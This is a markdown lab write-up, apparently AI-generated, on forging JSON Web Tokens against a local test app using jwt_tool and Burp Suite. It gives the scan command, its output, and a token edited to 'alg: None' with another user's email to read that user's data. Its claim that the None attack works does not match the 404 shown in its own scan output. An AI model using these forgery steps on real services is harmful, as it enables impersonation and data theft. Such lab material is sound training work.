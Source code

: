 
---

# 📖 High-Level Summary:

This lab demonstrates the use of **jwt_tool** to analyze and exploit vulnerabilities in JSON Web Tokens (JWTs). Key findings include:

1. **Broken Signature**: The application does not verify JWT signatures, allowing tampered tokens to be accepted.
2. **Algorithm None**: Changing the algorithm from `RS256` to `None` enables the token to bypass signature verification.

By leveraging these weaknesses, an attacker can manipulate JWTs to access other users' data.

---

# 📚 Definition Bank:

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**jwt_tool**|A tool for testing and exploiting vulnerabilities in JSON Web Tokens.|Supports pre-defined attack modules like modifying the signature and algorithm.|
|**JWT (JSON Web Token)**|A token format containing encoded header, payload, and signature sections.|Used for stateless authentication. Vulnerable if the signature is not validated.|
|**Broken Signature**|A vulnerability where the application does not verify the integrity of a tampered token.|Allows attackers to modify tokens without providing a valid signature.|
|**Algorithm None Attack**|A vulnerability where the application accepts `alg: None` as a valid algorithm in the JWT.|Bypasses signature verification entirely.|
|**Repeater (Burp Suite)**|A Burp Suite tool for sending and modifying HTTP requests to test vulnerabilities.|Used here to send modified JWTs to the target application.|

---

# 🎯 Steps and Commands:

### Step 1: Log in to the Dashboard

1. Navigate to:
    
    ```plaintext
    http://localhost:8888/dashboard
    ```
    
2. Observe the `Authorization` header in Burp Suite for the GET request to:
    
    ```plaintext
    /identity/api/v2/user/dashboard
    ```
    
    - **Token Example:**
        
        ```plaintext
        Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWwiOiJHRjDS1zW...randomJWTCharacters
        ```
        

---

### Step 2: Use jwt_tool to Analyze the Token

1. Run the following command in the terminal:
    
    ```bash
    jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWwiOiJHRjDS1zW...randomJWTCharacters' -M at
    ```
    
2. **Output Example:**
    
    ```plaintext
    [+] Sending token
    jwttool_a9933eb64cf3e12bf8f5d181ae1c126d Sending token Response Code: 200, 179 bytes
    ```
    

---

### Step 3: Analyze Scanning Module Output

1. **Prescan Checks:**
    
    ```plaintext
    jwttool_2242aff88714ddae9c009dea44435317 Broken signature Response Code: 200, 179 bytes
    jwttool_3b804aaab225b15664aed5bc64c51d1e Exploit: "alg":"None" (-X a) Response Code: 404, 58 bytes
    ```
    
    - **Key Findings:**
        - **Broken Signature:** The server accepts tampered tokens without signature verification.
        - **Algorithm None Attack:** Changing the algorithm to `None` bypasses verification.

---

### Step 4: Exploitation via Burp Suite Repeater

1. Send the **GET request** to:
    
    ```plaintext
    /identity/api/v2/user/dashboard
    ```
    
    - Include the **original JWT** in the Authorization header.
2. **Modify the JWT:**
    
    - Use the **JWT tab** in Repeater to edit the token:
        - **Step 1:** Change the algorithm in the header to `"alg": "None"`.
        - **Step 2:** Replace the user identifier in the payload with another user’s email.
    - Example Edited JWT:
        
        ```json
        {
          "header": {
            "alg": "None",
            "typ": "JWT"
          },
          "payload": {
            "email": "otheruser@example.com",
            "iat": 1675347297
          }
        }
        ```
        
3. **Send the Modified Request:**
    
    - Observe the response, which includes the other user’s information.

---

# ✅ Key Takeaways:

1. **Broken Signature**:
    - The application does not verify token integrity, allowing attackers to modify JWTs.
2. **Algorithm None Attack**:
    - Changing the algorithm to `None` bypasses signature verification entirely.
3. **Practical Exploitation**:
    - By using **jwt_tool** and **Burp Suite Repeater**, attackers can manipulate JWTs to impersonate other users and access sensitive data.

---

Let me know if you need further refinements or additional details! 🚀